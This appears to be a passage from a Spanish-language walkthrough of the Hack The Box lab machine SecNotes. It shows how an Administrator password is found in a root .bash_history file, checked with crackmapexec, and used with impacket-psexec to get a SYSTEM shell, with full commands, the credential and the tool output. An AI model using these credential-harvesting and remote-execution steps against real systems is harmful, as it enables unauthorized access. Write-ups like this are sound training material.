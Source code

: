 En este sistema estamos como usuario ``root`` , dentro del directorio root hay un archivo ``.bash_history`` en el hay un historial de comandos, uno de ellos es una conexion por ``smbclient`` como ``Administrator`` y su contraseña 

````bash
whoami
root
`````

````bash
ls -la
total 8
drwx------ 1 root root  512 Jun 22  2018 .
drwxr-xr-x 1 root root  512 Jun 21  2018 ..
---------- 1 root root  398 Jun 22  2018 .bash_history
-rw-r--r-- 1 root root 3112 Jun 22  2018 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
drwxrwxrwx 1 root root  512 Jun 22  2018 filesystem
`````

````bash
cat .bash_history
mkdir filesystem
mount //127.0.0.1/c$ filesystem/
sudo apt install cifs-utils
mount //127.0.0.1/c$ filesystem/
mount //127.0.0.1/c$ filesystem/ -o user=administrator
cat /proc/filesystems
sudo modprobe cifs
smbclient
apt install smbclient
smbclient
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
`````

Comprobamos que las credenciales son validas ``Pwn3d!`` con crackmapexec.

````bash
❯ cme smb 10.10.10.97 -u 'Administrator' -p 'u6!4ZwgwOM#^OBf#Nwnh'
SMB         10.10.10.97     445    SECNOTES         [*] Windows 10 Enterprise 17134 (name:SECNOTES) (domain:SECNOTES) (signing:False) (SMBv1:True)
SMB         10.10.10.97     445    SECNOTES         [+] SECNOTES\Administrator:u6!4ZwgwOM#^OBf#Nwnh (Pwn3d!)
`````

Utilzando la tool ``impacket-psexec`` accedemos como adminstrador.

````bash
❯ impacket-psexec 'SECNOTES/Administrator:u6!4ZwgwOM#^OBf#Nwnh@10.10.10.97'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.10.10.97.....
[*] Found writable share ADMIN$
[*] Uploading file WcMCYNlT.exe
[*] Opening SVCManager on 10.10.10.97.....
[*] Creating service Ywon on 10.10.10.97.....
[*] Starting service Ywon.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32> whoami
nt authority\system
`````
